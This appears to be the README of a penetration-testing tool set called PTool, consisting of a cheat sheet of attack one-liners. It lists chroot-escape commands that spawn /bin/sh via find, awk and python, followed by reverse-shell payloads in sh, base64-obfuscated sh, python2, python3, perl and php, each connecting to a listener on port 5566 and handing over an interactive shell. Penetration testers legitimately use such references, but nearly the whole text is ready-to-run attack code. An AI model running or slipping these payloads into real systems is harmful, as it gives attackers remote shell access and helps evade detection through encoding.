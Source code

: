 # PTool #
The [penetration test][0] tool set.

## Cheat Sheet ##

### chroot escape ###

| binary | script                                      |
|--------|---------------------------------------------|
| find   | find -exec '/bin/sh'                        |
| awk    | awk 'BEGIN {system("/bin/sh")}'             |
| python | python -c 'import os; os.system("/bin/sh")' |

### reversed shell ###

shell
```sh
sh -i >& /dev/tcp/127.0.0.1/5566 0>&1
```

shell with base64 encoding
```sh
# echo -n "/bin/sh -i >& /dev/tcp/127.0.0.1/5566 0>&1" | base64 | base64 -d | sh
echo "L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNTU2NiAwPiYx" | base64 -d | sh
```

python2
```python
import socket, os;

sk = socket.create_connection(("127.0.0.1", 5566))
fd = sk.fileno()
os.popen("bash -i <&{0} >&{0} 2>&{0}".format(fd))
```

python3
```python3
import socket, os, subprocess

sk = socket.create_connection(("127.0.0.1", 5566))
fd = sk.fileno()
subprocess.Popen(["/bin/sh", "-c", f"/bin/sh -i <{fd} >&{fd} 2>&{fd}"]);
```

perl
```perl
use Socket;

socket(s, AF_INET, SOCK_STREAM, 0);
connect(s, pack_sockaddr_in(5566, inet_aton("127.0.0.1"))) or die;
open(STDIN, ">&s");
open(STDOUT, ">&s");
open(STDERR, ">&s");
exec("/bin/sh -i");
```

php
```php
<?php $sk = fsockopen("127.0.0.1", 5566); exec("/bin/bash -i <&3 >&3 2>&3"); ?>
```


[0]: https://en.wikipedia.org/wiki/Penetration_test
